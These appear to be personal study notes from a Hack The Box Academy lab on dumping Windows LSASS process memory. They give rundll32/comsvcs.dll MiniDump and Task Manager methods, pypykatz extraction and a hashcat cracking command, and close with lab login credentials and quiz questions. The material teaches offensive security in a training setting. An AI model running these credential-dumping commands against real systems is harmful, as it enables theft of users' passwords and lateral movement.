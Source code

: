 
Reference the lessons on LSASS in [[Credential Storage#LSASS]] 




### Dumping LSASS Process Memory

>[! Note ] 
>Best to create a copy of the contents of LSASS process memory via a memory dump. This allows to extract credentials offline 

#### Task Manager Method:

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

- The above creates a file called `lsass.DMP` and is located in:
```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```
- Transfer `lsass.DMP` to the attack host via [[Attacking SAM#Syntax for smbserver.py]]


#### Rundll32.exe & Comsvcs.dll Method:

>[! Warning] Warning about this dumping method:
> Modern anti-virus will flag this action as malicious!

1) Determine the process ID assigned to lsass.exe in cmd or powershell

##### Find LSASS PID via CMD
```cmd
tasklist /svc
```

##### Find LSASS PID via Powershell
```powershell
Get-Process lsass
```

#### Creating lsass.dmp via Powershell

>[! Hint]
> Be sure to run powershell as admin

```powershell
PS C:\Windows\system32> rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
```
	- rundll32.exe calls cmsvcs.dll 
	- which then calls MiniDump to dump LSASS process memory to the intended directory


### Extract Credentials via Pypykatz:
> [! Hint]
> [pypykatz](https://github.com/skelsec/pypykatz) is a python implementation of Mimikatz, allowing us to run it on Linux attack hosts

> [! Hint]
> Recall that LSASS stores credentials that have active logon sessions on Windows systems. When we dumped LSASS process memory into the file, we essentially took a "snapshot" of what was in memory at that point in time. If there were any active logon sessions, the credentials used to establish them will be present.

##### Running Pypykatz
```python
pypykatz lsa minidump /home/of/attack/host/Documents/lsass.dmp
```


This will result in subsection output for MSV, WDIGSET, Kerberos, DPAPI

MSV
- This is an authentication package that LSA calls to validate logon attempts against the SAM database.

WDIGEST
- Older authentication protocol enabled by default in Windows XP - Windows 8 and Windows Server 2003 -2012
- LSASS caches WDIGEST credentials in clear-text
- Microsoft patched this WDIGEST vulnerability and it is also disabled by default

Kerberos
- LSASS `caches passwords`, `ekeys`, `tickets`, and `pins` associated with Kerberos. 
- It is possible to extract these from LSASS process memory and use them to access other systems joined to the same domain.

DPAPI
- A set of APIs in Windows used to encrypt and decrypt DPAPI data blobs
- Mimikatz and Pypykatz can extract the DPAPI masterkey for logged-on users when their data is present in the LSASS process memory.
- The masterkey decrypts the secrets associated with the applications that use DPAPI below:

| Applications                | DPAPI Usage                                                                                 |
| --------------------------- | ------------------------------------------------------------------------------------------- |
| `Internet Explorer`         | Password form auto-completion data (username and password for saved sites).                 |
| `Google Chrome`             | Password form auto-completion data (username and password for saved sites).                 |
| `Outlook`                   | Passwords for email accounts.                                                               |
| `Remote Desktop Connection` | Saved credentials for connections to remote machines.                                       |
| `Credential Manager`        | Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more. |

> [! Note ] One user found
> In the example, only one user was found ,`Bob`, so no need to create a text file of hashes
>> ```go
sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt

## Questions

Username:
```go
htb-student
```

Password:
```go
HTB_@cademy_stdnt!
```

RDP:
```go
xfreerdp /v:STIMP /u:htb-student /p:HTB_@cademy_stdnt! /cert:ignore
```

1) What is the name of the executable file associated with the Local Security Authority Process?
```go
lsass.exe
```

2) Apply the concepts taught in this section to obtain the password to the Vendor user account on the target. Submit the clear-text password as the answer. (Format: Case sensitive)
```go
```